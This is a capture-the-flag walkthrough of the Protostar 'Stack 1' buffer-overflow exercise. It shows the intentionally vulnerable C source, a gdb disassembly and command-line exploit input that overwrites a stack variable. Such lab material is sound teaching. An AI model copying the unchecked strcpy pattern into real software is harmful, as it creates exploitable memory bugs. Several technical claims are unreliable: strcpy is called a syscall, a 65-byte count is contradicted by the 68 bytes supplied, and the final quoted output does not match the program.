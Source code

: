 ```yaml
---
title: Stack 1
sidebar_position: 2
custom_edit_url: null
---
```


> This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.
> This level is at /opt/protostar/bin/stack1
> **Hints**
> - If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
> - Protostar is little endian

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
This program requires us to pass arguments, with `argv[0]` being the program name. If we don't provide an extra argument, we are asked to specify an argument.
The `strcpy` system call is used to read user input into the buffer. 

Let's look at it's manual page.
```c
char strcpy(char restrict dst, const char restrict src);
```
We can see that the characters are read from `argv[1]` and copied to the `buffer`.

It is better than the `gets` syscall but it still has it's own problems.
```
CAVEATS 

	The strings src and dst may not overlap.

    If the destination buffer is not large enough, the behavior is
	undefined.
```
So the `strcpy` syscall stores characters past the end of the buffer. This essentially breaks the limit set on the buffer which means we can input more than 64 bytes.

This is the vulnerability that we have to exploit.

But before that let's go through the rest of the code. 

There is an `if` statement which checks if the value of `modified` in not equal to `0x61626364`. If it is not equal to 0, it prints out a string `else` it prompts us to try again.
We have to overwrite the `modified` variable using a buffer overflow. For that we have have to know where the `modified` variable is located.

Let's disassemble the program in `gdb`.
```
(gdb) disassemble main
Dump of assembler code for function main:
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave
0x080484d6 <main+114>:  ret
```
The instruction at `main+67` sets up the check.
```
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
```
The value in `eax` is compared with `0x61626364` which in ASCII is `abcd`. This value is moved from `esp+0x5c`.

Next, we want to locate the buffer.
```
--snip--;
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
--snip--;
```
In 32-bit assembly the arguments for a `call` are stored onto the `stack`.

In our program the `gets` syscall takes the location of the buffer as argument. This buffer is located at `esp+0x1c`.

The distance between the location of the `modified` variable and the buffer is the following:
```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```
The variable is located right where the buffer ends.

Therefore we need 65 bytes in total, 64 bytes to fill the buffer and 1 byte to overwrite the `modified` variable. 
## Exploit
```
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcd
Try again, you got 0x64636261
```
The the last four characters are being stored in little endian. So `abcd` is being flipped to `dcba`.

In order to pass the check, we have to provide the the flipped string i.e. `dcba`.
```
$ ./stack1 $(python -c 'print "A"*64 + "dcba"')
you have changed the 'modified' variable
```
